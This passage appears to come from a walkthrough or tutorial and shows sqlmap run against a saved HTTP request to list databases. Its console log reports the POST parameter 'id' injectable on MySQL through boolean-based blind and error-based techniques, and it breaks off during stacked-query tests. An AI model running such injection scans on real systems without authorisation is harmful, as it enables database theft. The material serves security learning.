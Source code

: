 The tool is prepared to accept this type of files as input since they contain everything necessary to perform the attack. We simply run `sqlmap -r a -dbs`.
\* `a` is the name of the file in which we have saved the request.

```txt
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:10:40 /2023-12-02/

[13:10:40] [INFO] parsing HTTP request from 'a'
[13:10:40] [INFO] testing connection to the target URL
[13:10:40] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[13:10:40] [INFO] testing if the target URL content is stable
[13:10:41] [INFO] target URL content is stable
[13:10:41] [INFO] testing if POST parameter 'id' is dynamic
[13:10:41] [WARNING] POST parameter 'id' does not appear to be dynamic
[13:10:41] [INFO] heuristic (basic) test shows that POST parameter 'id' might be injectable (possible DBMS: 'MySQL')
[13:10:41] [INFO] testing for SQL injection on POST parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[13:10:47] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:10:47] [WARNING] reflective value(s) found and filtering out
[13:10:48] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:10:48] [INFO] POST parameter 'id' appears to be 'Boolean-based blind - Parameter replace (original value)' injectable (with --string="DB")
[13:10:48] [INFO] testing 'Generic inline queries'
[13:10:48] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[13:10:48] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[13:10:48] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[13:10:48] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[13:10:48] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[13:10:48] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[13:10:48] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[13:10:48] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[13:10:48] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:10:48] [INFO] POST parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[13:10:48] [INFO] testing 'MySQL inline queries'
[13:10:48] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[13:10:48] [WARNING] time-based comparison requires larger statistical model, please wait. (done)                                                                                            
[13:10:48] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[13:10:48] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[13:10:48] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[13:10:48] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[13:10:48] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
```
